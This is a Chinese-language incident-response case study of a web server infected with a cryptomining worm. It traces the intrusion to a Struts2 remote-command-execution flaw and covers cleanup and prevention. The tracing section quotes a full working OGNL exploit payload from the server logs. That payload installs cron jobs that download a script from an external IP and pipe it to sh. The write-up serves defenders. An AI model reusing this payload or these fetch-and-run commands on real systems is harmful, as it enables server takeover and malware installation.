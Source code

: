 
# 0x00 前言
随着虚拟货币的疯狂炒作，利用挖矿脚本来实现流量变现，使得挖矿病毒成为不法分子利用最为频繁的攻击方式。新的挖矿攻击展现出了类似蠕虫的行为，并结合了高级攻击技术，以增加对目标服务器感染的成功率，通过利用永恒之蓝（EternalBlue）、web攻击多种漏洞（如Tomcat弱口令攻击、Weblogic WLS组件漏洞、Jboss反序列化漏洞、Struts2远程命令执行等），导致大量服务器被感染挖矿程序的现象 。


# 0x01 应急场景
某天，安全管理员在登录安全设备巡检时，发现某台网站服务器持续向境外IP发起连接，下载病毒源：

![linux-12-1.png](/_img\05-应急响应/1656921710268-3ae710e9-131d-4f2b-8970-00aa6c653a04.png)


# 0x02 事件分析

#### A、排查过程
登录服务器，查看系统进程状态，发现不规则命名的异常进程、异常下载进程 :<br />![linux-12-2.png](/_img\05-应急响应/1656921729697-23d27046-f5a0-4a17-baa0-3334da53b700.png)

![linux-12-3.png](/_img\05-应急响应/1656921734289-02b5cf79-161b-40e8-8a32-e83ed5aa5b66.png)

下载logo.jpg，包含脚本内容如下：<br />![linux-12-4.png](/_img\05-应急响应/1656921739782-cda8b500-6ed5-4298-aece-862ffdf72dea.png)

到这里，我们可以发现攻击者下载logo.jpg并执行了里面了shell脚本，那这个脚本是如何启动的呢？

通过排查系统开机启动项、定时任务、服务等，在定时任务里面，发现了恶意脚本，每隔一段时间发起请求下载病毒源，并执行 。<br />![linux-12-5.png](/_img\05-应急响应/1656921749489-8e6b0470-8990-4861-b31d-c98ef9bff5e6.png)


#### B、溯源分析
在Tomcat log日志中，我们找到这样一条记录：<br />![linux-12-6.png](/_img\05-应急响应/1656921757055-377239b9-f016-4b8e-a825-eefa6efbed0e.png)


对日志中攻击源码进行摘录如下：<br />`{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q http://5.188.87.11/icons/logo.jpg|sh\n*/19 * * * * curl http://5.188.87.11/icons/logo.jpg|sh" | crontab -;wget -O - -q http://5.188.87.11/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}`

可以发现攻击代码中的操作与定时任务中异常脚本一致，据此推断黑客通过Struct 远程命令执行漏洞向服务器定时任务中写入恶意脚本并执行。


#### C、清除病毒
1、删除定时任务:<br />![linux-12-7.png](/_img\05-应急响应/1656921766104-cf344005-adf3-4b4e-b4fe-99689c21d422.png)

2、终止异常进程:<br />![linux-12-8.png](/_img\05-应急响应/1656921770914-d1dda73b-351b-43aa-8f27-b8dc69bb6a3a.png)


#### D、漏洞修复

	升级struts到最新版本


# 0x03 防范措施
针对服务器被感染挖矿程序的现象，总结了几种预防措施：
```
1、安装安全软件并升级病毒库，定期全盘扫描，保持实时防护
2、及时更新 Windows安全补丁，开启防火墙临时关闭端口
3、及时更新web漏洞补丁，升级web组件
```
